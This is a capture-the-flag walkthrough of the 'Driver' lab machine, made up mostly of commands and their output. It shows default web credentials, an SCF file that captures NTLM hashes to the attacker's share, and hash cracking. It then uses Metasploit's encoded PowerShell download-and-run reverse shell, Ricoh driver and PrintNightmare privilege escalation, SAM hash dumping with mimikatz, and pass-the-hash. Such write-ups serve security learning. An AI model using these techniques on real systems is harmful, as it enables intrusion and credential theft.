



# Driver

```bash
TARGET=10.10.11.106
```

```bash
$ sudo nmap -p- --min-rate 10000 $TARGET
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-03 18:43 PDT
Nmap scan report for 10.10.11.106
Host is up (0.096s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 13.57 seconds
```

```bash
$ sudo nmap -p 80,135,445,5985 -sV -sC $TARGET
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-03 18:45 PDT
Nmap scan report for 10.10.11.106
Host is up (0.090s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-time: 
|   date: 2024-06-04T08:46:00
|_  start_date: 2024-06-04T08:40:16

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.41 seconds
```

```bash
$ netexec smb $TARGET -u '' -p ''                                                    
SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.10.11.106    445    DRIVER           [-] DRIVER\: STATUS_ACCESS_DENIED
```

```bash
$ curl -I http://$TARGET                                                                        
HTTP/1.1 401 Unauthorized
Content-Length: 0
Content-Type: text/html; charset=UTF-8
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.3.25
WWW-Authenticate: Basic realm="MFP Firmware Update Center. Please enter password for admin"
Date: Tue, 04 Jun 2024 08:44:35 GMT
```

The `WWW-Authenticate` seems to be reveling an username.
> Basic realm="MFP Firmware Update Center. Please enter password for `admin`"

Testing a few basic passwords, we get a hit with `admin:admin` combination.



| Username | Password | Target |
|--|--|--|
| admin | admin | web - port 80 |





The message says something interesting:
> Select printer model and upload the respective firmware update to our file share. `Our testing team will review the uploads manually and initiates the testing soon`.

We could try a few ideas from [this blog post](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/) to get a request back from the team testing our upload.

Lets try `Shell Command Files`.

You can save this as something.scf and once you open the folder explorer will try to resolve the network path for the icon.

```bash
$ cat kali.scf         
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop
```

```bash
$ sudo responder -I tun0 -wv
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.4.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.3]
    Responder IPv6             [dead:beef:2::1001]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP', 'ISATAP.LOCAL']

[+] Current Session Variables:
    Responder Machine Name     [WIN-CZDH5H7APTS]
    Responder Domain Name      [BVCT.LOCAL]
    Responder DCE-RPC Port     [48485]

[+] Listening for events...
```

Then we upload the file on the portal, and get the following:

```bash
[SMB] NTLMv2-SSP Client   : 10.10.11.106
[SMB] NTLMv2-SSP Username : DRIVER\tony
[SMB] NTLMv2-SSP Hash     : tony::DRIVER:746762f8d137b1c9:6135549C8...000
```

```bash
$ tail -n 1 /usr/share/responder/logs/SMB-NTLMv2-SSP-10.10.11.106.txt 
tony::DRIVER:bfc5f7503cf26e23:376B8AC39D91177307132FE74852B14F:010100...000
```

```bash
$ tail -n 1 /usr/share/responder/logs/SMB-NTLMv2-SSP-10.10.11.106.txt > tony.hash
```

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt tony.hash   
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)     
1g 0:00:00:00 DONE (2024-06-03 19:50) 10.00g/s 327680p/s 327680c/s 327680C/s softball27..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

## Foothold

| Username | Password | Target |
|--|--|--|
| admin | admin | web - port 80 |
| tony | liltony | Windows Auth |

```bash
$ netexec smb $TARGET -u 'tony' -p 'liltony'         
SMB         10.10.11.106    445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.10.11.106    445    DRIVER           [+] DRIVER\tony:liltony
```

```bash
$ evil-winrm -i $TARGET -u 'tony' -p 'liltony'
Evil-WinRM shell v3.5
...
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
```

```bash
*Evil-WinRM* PS C:\Temp> upload winPEASany.exe
Info: Uploading /home/kali/Desktop/HTB/Driver/winPEASany.exe to C:\Temp\winPEASany.exe
Data: 3183956 bytes of 3183956 bytes copied
Info: Upload successful!
```

```bash
*Evil-WinRM* PS C:\Temp> C:\Temp\winPEASany.exe
...
ÉÍÍÍÍÍÍÍÍÍ͹ PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.0.10240.17146
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    PS history size: 134B
...
ÉÍÍÍÍÍÍÍÍÍ͹ Scheduled Applications --Non Microsoft--
È Check if you can modify other users scheduled binaries https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-with-autorun-binaries
    (DRIVER\Administrator) VerifyFirmware: C:\Users\tony\appdata\local\job\job.bat 
    Permissions file: tony [AllAccess]
    Permissions folder(DLL Hijacking): tony [AllAccess]
    Trigger: At log on of DRIVER\tony
...
```

```bash
*Evil-WinRM* PS C:\Temp> cat C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\"ConsoleHost_history.txt"
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'

ping 1.1.1.1
ping 1.1.1.1
```

```bash
*Evil-WinRM* PS C:\Temp> cat C:\Users\tony\appdata\local\job\job.bat
@echo off
:LOOP
%SystemRoot%\explorer.exe "C:\firmwares"
ping -n 20 127.0.0.1 > nul && powershell -ep bypass c:\users\tony\appdata\local\job\quit.ps1
DEL /q C:\firmwares\*
cls
GOTO :LOOP
:EXIT
```

```bash
*Evil-WinRM* PS C:\Temp> cat c:\users\tony\appdata\local\job\quit.ps1
$folder = [uri]'C:\firmwares'
foreach ($w in (New-Object -ComObject Shell.Application).Windows())
{ if ($w.LocationUrl -ieq $folder.AbsoluteUri)
        {$w.Quit(); break}
}
```

```bash
$ msfconsole -q
[*] Starting persistent handler(s)...

msf6 > use multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp

msf6 exploit(multi/script/web_delivery) > set target PSH
target => PSH

msf6 exploit(multi/script/web_delivery) > set -g payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp

msf6 exploit(multi/script/web_delivery) > set -g lhost tun0
lhost => tun0

msf6 exploit(multi/script/web_delivery) > set srvhost tun0
srvhost => 10.10.14.3

msf6 exploit(multi/script/web_delivery) > options 

Module options (exploit/multi/script/web_delivery):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  10.10.14.3       yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to liste
                                       n on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   2   PSH

View the full module info with the info, or info -d command.
```

```bash
msf6 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.3:4444 
msf6 exploit(multi/script/web_delivery) > [*] Using URL: http://10.10.14.3:8080/BwgC7Lt
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -e WwB...7AA==
```

```bash
*Evil-WinRM* PS C:\Temp> powershell.exe -nop -w hidden -e WwB...7AA==
```

```bash
[*] 10.10.11.106     web_delivery - Delivering AMSI Bypass (1376 bytes)
[*] 10.10.11.106     web_delivery - Delivering Payload (3708 bytes)
[*] Sending stage (201798 bytes) to 10.10.11.106
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.10.11.106:49416) at 2024-06-04 10:24:47 -0700

msf6 exploit(multi/script/web_delivery) > sessions 

Active sessions
===============

  Id  Name  Type                     Information           Connection
  --  ----  ----                     -----------           ----------
  1         meterpreter x64/windows  DRIVER\tony @ DRIVER  10.10.14.3:4444 -> 10.10.11.106:49416 (10.10.11.106)

msf6 exploit(multi/script/web_delivery) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: DRIVER\tony
```

```bash
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: All pipe instances are busy. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
[-] Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)
```

```bash
meterpreter > ps

Process List
============

 PID   PPID  Name                          Arch  Session  User         Path
 ---   ----  ----                          ----  -------  ----         ----
 0     0     [System Process]
 4     0     System
 104   652   WmiPrvSE.exe
...
 1436  3636  conhost.exe                   x64   0        DRIVER\tony  C:\Windows\System32\conhost.exe
 1444  808   sihost.exe                    x64   1        DRIVER\tony  C:\Windows\System32\sihost.exe
 1516  564   svchost.exe
...
 1964  1704  vm3dservice.exe
 2108  652   explorer.exe                  x64   1        DRIVER\tony  C:\Windows\explorer.exe
 2212  652   wsmprovhost.exe               x64   0        DRIVER\tony  C:\Windows\System32\wsmprovhost.exe
 2268  564   dllhost.exe
 2444  564   msdtc.exe
 2452  652   WmiPrvSE.exe
 2584  808   cmd.exe                       x64   1        DRIVER\tony  C:\Windows\System32\cmd.exe
 2592  808   taskhostw.exe                 x64   1        DRIVER\tony  C:\Windows\System32\taskhostw.exe
 2612  564   svchost.exe
 2768  564   SearchIndexer.exe
 3080  2584  conhost.exe                   x64   1        DRIVER\tony  C:\Windows\System32\conhost.exe
 3096  3176  vmtoolsd.exe                  x64   1        DRIVER\tony  C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 3176  3148  explorer.exe                  x64   1        DRIVER\tony  C:\Windows\explorer.exe
 3196  564   svchost.exe
 3228  652   RuntimeBroker.exe             x64   1        DRIVER\tony  C:\Windows\System32\RuntimeBroker.exe
 3444  2768  SearchProtocolHost.exe
 3548  652   ShellExperienceHost.exe       x64   1        DRIVER\tony  C:\Windows\SystemApps\ShellExperienceHost_cw5n1h2txyewy\ShellExperienceHost.exe
 3564  564   svchost.exe                   x64   1        DRIVER\tony  C:\Windows\System32\svchost.exe
 3604  2768  SearchFilterHost.exe
 3636  2212  powershell.exe                x64   0        DRIVER\tony  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 3688  652   SearchUI.exe                  x64   1        DRIVER\tony  C:\Windows\SystemApps\Microsoft.Windows.Cortana_cw5n1h2txyewy\SearchUI.exe
 4312  3176  OneDrive.exe                  x86   1        DRIVER\tony  C:\Users\tony\AppData\Local\Microsoft\OneDrive\OneDrive.exe
 4424  2584  PING.EXE                      x64   1        DRIVER\tony  C:\Windows\System32\PING.EXE
 4472  652   explorer.exe                  x64   1        DRIVER\tony  C:\Windows\explorer.exe
 4916  652   explorer.exe                  x64   1        DRIVER\tony  C:\Windows\explorer.exe
 4960  808   OneDriveStandaloneUpdater.ex  x86   1        DRIVER\tony  C:\Users\tony\AppData\Local\Microsoft\OneDrive\OneDriveStandaloneUpdater.exe
```

```bash
meterpreter > migrate -N explorer.exe
[*] Migrating from 3636 to 3176...
[*] Migration completed successfully.
```

```bash
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/script/web_delivery) > use post/multi/recon/local_exploit_suggester
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > options 

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION          1                yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits
```

```bash
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.11.106 - Collecting local exploits for x64/windows...
[*] 10.10.11.106 - 193 exploit checks are being tried...
[+] 10.10.11.106 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/bypassuac_fodhelper: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/bypassuac_sluihijack: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/cve_2019_1458_wizardopium: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The target appears to be vulnerable. Vulnerable Windows 10 v1507 build detected!
[+] 10.10.11.106 - exploit/windows/local/cve_2020_1048_printerdemon: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/cve_2020_1337_printerdemon: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/cve_2021_40449: The target appears to be vulnerable. Vulnerable Windows 10 v1507 build detected!
[+] 10.10.11.106 - exploit/windows/local/cve_2022_21999_spoolfool_privesc: The target appears to be vulnerable.
[+] 10.10.11.106 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.11.106 - exploit/windows/local/ricoh_driver_privesc: The target appears to be vulnerable. Ricoh driver directory has full permissions
[+] 10.10.11.106 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.
[*] Running check method for exploit 45 / 45
[*] 10.10.11.106 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/bypassuac_dotnet_profiler                Yes                      The target appears to be vulnerable.
 2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_fodhelper                      Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/bypassuac_sdclt                          Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/bypassuac_sluihijack                     Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/cve_2019_1458_wizardopium                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The target appears to be vulnerable. Vulnerable Windows 10 v1507 build detected!
 8   exploit/windows/local/cve_2020_1048_printerdemon               Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/cve_2020_1337_printerdemon               Yes                      The target appears to be vulnerable.
 10  exploit/windows/local/cve_2021_40449                           Yes                      The target appears to be vulnerable. Vulnerable Windows 10 v1507 build detected!
 11  exploit/windows/local/cve_2022_21999_spoolfool_privesc         Yes                      The target appears to be vulnerable.
 12  exploit/windows/local/ms16_032_secondary_logon_handle_privesc  Yes                      The service is running, but could not be validated.
 13  exploit/windows/local/ricoh_driver_privesc                     Yes                      The target appears to be vulnerable. Ricoh driver directory has full permissions
 14  exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.
```

## CVE-2019-19363 - Local privilege escalation in RICOH printer drivers for Windows

```bash
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ricoh_driver_privesc
[*] Using configured payload windows/x64/meterpreter/reverse_tcp

msf6 exploit(windows/local/ricoh_driver_privesc) > set session 1
session => 1

msf6 exploit(windows/local/ricoh_driver_privesc) > options 

Module options (exploit/windows/local/ricoh_driver_privesc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows
```

```bash
msf6 exploit(windows/local/ricoh_driver_privesc) > run

[-] Handler failed to bind to 10.10.14.3:4444:-  -
[-] Handler failed to bind to 0.0.0.0:4444:-  -
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Ricoh driver directory has full permissions
[*] Adding printer cQvaOtQ...
[*] Sending stage (201798 bytes) to 10.10.11.106
[*] Meterpreter session 2 opened (10.10.14.3:4444 -> 10.10.11.106:49419) at 2024-06-04 10:39:07 -0700
[*] Deleting printer cQvaOtQ
[*] Exploit completed, but no session was created.
msf6 exploit(windows/local/ricoh_driver_privesc) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  DRIVER\tony @ DRIVER          10.10.14.3:4444 -> 10.10.11.106:49416 (10.10.11.106)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DRIVER  10.10.14.3:4444 -> 10.10.11.106:49419 (10.10.11.106)
```

```bash
msf6 exploit(windows/local/ricoh_driver_privesc) > sessions 2
[*] Starting interaction with 2...

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## CVE-2021-1675 - printnightmare

```bash
msf6 exploit(windows/local/ricoh_driver_privesc) > search printnightmare

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank    Check  Description
   -  ----                                                 ---------------  ----    -----  -----------
   0  exploit/windows/dcerpc/cve_2021_1675_printnightmare  2021-06-08       normal  Yes    Print Spooler Remote DLL Injection
```

```bash
msf6 exploit(windows/local/ricoh_driver_privesc) > use exploit/windows/dcerpc/cve_2021_1675_printnightmare
[*] Using configured payload windows/x64/meterpreter/reverse_tcp

msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set RHOSTS 10.10.11.106
RHOSTS => 10.10.11.106

msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set SMBUser tony
SMBUser => tony

msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set SMBPass liltony
SMBPass => liltony

msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set SRVHOST tun0
SRVHOST => 10.10.14.3

msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > set LPORT 4455
LPORT => 4455

msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > options 
Module options (exploit/windows/dcerpc/cve_2021_1675_printnightmare):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   FILE_NAME                     no        File name to share (Default: random)
   FOLDER_NAME                   no        Folder name to share (Default: none)
   RHOSTS       10.10.11.106     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT        445              yes       The SMB service port (TCP)
   SHARE                         no        Share (Default: random); cannot contain spaces or slashes
   SMBPass      liltony          no        The password for the specified username
   SMBUser      tony             no        The username to authenticate as
   SRVHOST      10.10.14.3       yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 t
                                           o listen on all addresses.
   SRVPORT      445              yes       The local port to listen on.

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4455             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Windows
```

```bash
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > run

[*] Started reverse TCP handler on 10.10.14.3:4455 
[*] 10.10.11.106:445 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.10.11.106:445 - Target environment: Windows v10.0.10240 (x64)
[*] 10.10.11.106:445 - Enumerating the installed printer drivers...
[*] 10.10.11.106:445 - Retrieving the path of the printer driver directory...
[+] 10.10.11.106:445 - The target is vulnerable. Received ERROR_BAD_NET_NAME, implying the target is vulnerable.
[*] 10.10.11.106:445 - Server is running. Listening on 10.10.14.3:445
[*] 10.10.11.106:445 - Server started.
[*] 10.10.11.106:445 - The named pipe connection was broken, reconnecting...
[*] 10.10.11.106:445 - Successfully reconnected to the named pipe.
[*] Sending stage (201798 bytes) to 10.10.11.106
[*] 10.10.11.106:445 - The named pipe connection was broken, reconnecting...
[*] Meterpreter session 3 opened (10.10.14.3:4455 -> 10.10.11.106:49423) at 2024-06-04 10:44:52 -0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## Extra

```bash
msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  DRIVER\tony @ DRIVER          10.10.14.3:4444 -> 10.10.11.106:49416 (10.10.11.106)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DRIVER  10.10.14.3:4444 -> 10.10.11.106:49419 (10.10.11.106)
  3         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DRIVER  10.10.14.3:4455 -> 10.10.11.106:49423 (10.10.11.106)

msf6 exploit(windows/dcerpc/cve_2021_1675_printnightmare) > jobs 

Jobs
====

  Id  Name                                Payload                              Payload opts
  --  ----                                -------                              ------------
  0   Exploit: multi/script/web_delivery  windows/x64/meterpreter/reverse_tcp  tcp://10.10.14.3:4444
```

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d1256cff8b5b5fdb8c327d3b6c3f5017:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
tony:1003:aad3b435b51404eeaad3b435b51404ee:dfdb5b520de42ca5d1b84ce61553d085:::
```

OR

```bash
meterpreter > load mimikatz
[!] The "mimikatz" extension has been replaced by "kiwi". Please use this in future.
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.

meterpreter > lsa_dump_sam
[+] Running as SYSTEM
[*] Dumping SAM
Domain : DRIVER
SysKey : e5b3cda034afd685bc69ccd3c4e9387c
Local SID : S-1-5-21-3114857038-1253923253-2196841645

SAMKey : d5556d5c875ac43d9d58aa018f2b59cb

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: d1256cff8b5b5fdb8c327d3b6c3f5017

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000003eb (1003)
User : tony
  Hash NTLM: dfdb5b520de42ca5d1b84ce61553d085
```

```bash
$ evil-winrm -i $TARGET -u 'administrator' -H 'd1256cff8b5b5fdb8c327d3b6c3f5017'
...                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
driver\administrator
```
